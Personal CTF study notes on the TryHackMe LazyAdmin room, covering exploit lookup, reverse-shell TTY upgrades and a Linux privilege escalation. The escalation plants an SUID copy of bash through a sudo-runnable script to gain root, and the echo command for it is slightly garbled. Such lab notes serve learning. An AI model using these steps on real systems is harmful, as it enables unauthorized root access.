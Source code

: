 
2024-06-12 19:21

Source: #tryhackme #CTF #privesc 

Tags: [[shell]] [[shellspawn]] [[linux]]

`searchsploit -x path` - use this to see details about the exploit and then configure that exploit according to the current machine

if you don't know the version of a service running, then simply search the exploit on exploitDB and guess the version 

sometimes to find the login page you might have to 
- do recursive gobusting 
- look at the documentation of the web app

use `rlwrap` with your `nc` commands - ability to use arrow keys and access command history 
#### Spawning a TTY shell

```
/usr/bin/script -qc /bin/bash /dev/null

#background the session using ctrl + z

stty raw -echo

#foreground the session using nc -nlvp previous_listening_port 

export TERM=xterm
```
use the above to spawn a TTY shell without using py

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
use the above to upgrade the shell using py 

when ever you get a [[revshell]] don't `cd` into dir's instead use `ls` to check out content and then cat out the desired content - because sometimes the machine might take time to change dirs
#### Privilege escalation 
\
always run `sudo -l` to check if [[sudo]] entry is available 

if you are `www-data` on a linux machine then you should check sudo for privesc

checkout Tib3rius udemy course on Linux privesc for the [[rootbash]] method, briefly this method - 
- Creates an SUID version of bash that we just chuck in the temp folder that way it's gone when the system reboots (easy cleanup) and we can just run it with the dash P option to become root

```
echo "cp /bin/bash /tmp/rootbash, chmod +s /tmp/bash" > /etc/copy.sh
```

here the whole thing is being copied to `/etc/copy `because in the current box that is the only file that can run with sudo privileges
after running this command check out `sudo -l `to see the perms for current user, further take the`sudo -l` output and sudo run that path 
eg. `sudo /usr/bin/perl /home/itguy/backup.pl`
check `tmp` dir, it should have the rootbash binary. run that rootbash binary with `-p` and become root


### References

[TryHackMe | LazyAdmin](https://tryhackme.com/r/room/lazyadmin)

[walkthrough by darksec](https://www.youtube.com/watch?v=Tf8mMs0lvPA)